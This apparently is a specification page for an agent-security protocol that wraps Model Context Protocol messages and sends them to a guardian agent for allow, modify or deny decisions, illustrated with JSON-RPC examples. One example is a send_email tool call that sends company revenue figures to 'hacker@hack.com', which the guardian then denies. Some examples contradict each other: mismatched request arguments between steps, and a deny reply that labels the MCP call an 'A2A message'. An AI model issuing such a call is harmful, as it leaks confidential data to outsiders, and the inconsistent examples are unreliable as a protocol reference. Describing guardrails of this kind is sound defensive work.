 # Extending MCP

## MCP protocol
The Model Context Protocol ([MCP](https://modelcontextprotocol.io/introduction)) is an open standard that simplifies how AI models, particularly Large Language Models (LLMs) and agents, interact with external data sources, tools, and APIs. It's designed to provide a standardized way for AI agents to connect with the real world, making it easier to build AI applications that can access and use external information.<br><br>
MCP is gaining popularity world-wide and is being adopted and integrated almost everywhere, security and observability must be implemented to prevent unwanted bad consequences.<br>
In the same manner as ASOP standardize security for non-standardize access and use of tools and data, it also extends MCP protocol to allow secure usage and implement security controls.

## MCP support

ASOP extension for MCP is used as a **transport** for MCP communications between the agent and the guardian agent. Meaning ASOP understands and delivers MCP message as is.<br>
Securing MCP means securing outbound and inbound communications/messages from the agent (using MCP client) to the MCP server and vice versa.<br> 

#### To extend MCP protocol:
1. Agents using MCP ***must*** use ASOP as a transport protocol to deliver MCP messages to the guardian agent.
2. Agents using MCP ***must*** understand and enforce ASOP responses.

#### The following flow explains how this should be done:
1. Agent **A** prepares (using MCP client) MCP-compliant message.
2. Agent **A** uses ASOP as a transport to send the message to the guardian agent.
3. The guardian agent understands and processes the MCP transported message and send the result back to agent **A**.
4. Agent **A** interprets and enforces the response from guardian agent.
5. In case response is `allow`, agent **A** sends the MCP message to MCP server.
6. MCP server processes the message and sends back to agent **A** the response.
7. Agent **A** uses ASOP as a transport to send the MCP response to the guardian agent.
8. The guardian agent understands and processes the MCP transported response and send the result back to agent **A**.
9. Agent **A** interprets and enforces the response from guardian agent.

## Examples
### Scenario: Agent **A** asks MCP server for the weather and guardian agent respond with allow
#### 1. Agent **A** prepares MCP `tools/call` message 

   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "city": "Barcelona"
       },
       "name": "get_weather"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 

   ```json
    {
        "jsonrpc": "2.0",
        "id": 70,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "city": "Barcelona"
            },
            "name": "get_weather"
            }
        }
    }
   ```

#### 3. Guardian agent sends `allow` response to agent **A**

   ```json
        {
        "jsonrpc": "2.0",
        "id": 70,
        "result": {
            "decision": "allow",
            "message": "Allow tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking the weather. Nothing suspicious here."
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data and guardian agent respond with modify
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hr@company.io",
           "subject": "",
           "body": ""
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message
   ```json
    {
        "jsonrpc": "2.0",
        "id": 80,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "to": "finance@company.io",
                "from": "manager@company.io",
                "subject": "Employee Salary Raise Request",
                "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is 200000$, the requested salary is 300000$. Let's have a meeting discuss this."
            },
            "name": "send_email"
            }
        }
    }
   ```

#### 3. Guardian agent sends `modify` response to agent **A**
   ```json
        {
        "jsonrpc": "2.0",
        "id": 80,
        "result": {
            "decision": "modify",
            "message": "Modified data for tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking to send an email with sensitive info, I need to mask it first.",
            "modifiedRequest": {
                "jsonrpc": "2.0",
                "id": 80,
                "method": "protocols/MCP",
                "params": {
                    "jsonrpc": "2.0",
                    "id": 1,
                    "method": "tools/call",
                    "params": {
                    "arguments": {
                        "to": "finance@company.io",
                        "from": "manager@company.io",
                        "subject": "Employee Salary Raise Request",
                        "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is **********$, the requested salary is **********$. Let's have a meeting discuss this."
                    },
                    "name": "send_email"
                    }
                }
            }
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data to an outsider and guardian agent respond with deny
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hacker@hack.com",
           "subject": "Financial info",
           "body": "The ARR for the company for year 2024 was 100000000000$ "
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 100,
     "method": "protocols/MCP",
     "params": {
        "jsonrpc": "2.0",
        "id": 1,
        "method": "tools/call",
        "params": {
        "arguments": {
            "to": "hacker@hack.com",
            "subject": "Financial info",
            "body": "The ARR for the company for year 2024 was 100000000000$ "
        },
        "name": "send_email"
        }
   }
   }
   ```

#### 3.Guardian agent sends `block` response to agent **A**
   ```json
    {
        "jsonrpc": "2.0",
        "id": 100,
        "result": {
            "decision": "deny",
            "message": "Deny message/send.",
            "reasoning": "This is A2A message. I recognize disallowed content."
        }
    }
   ```  
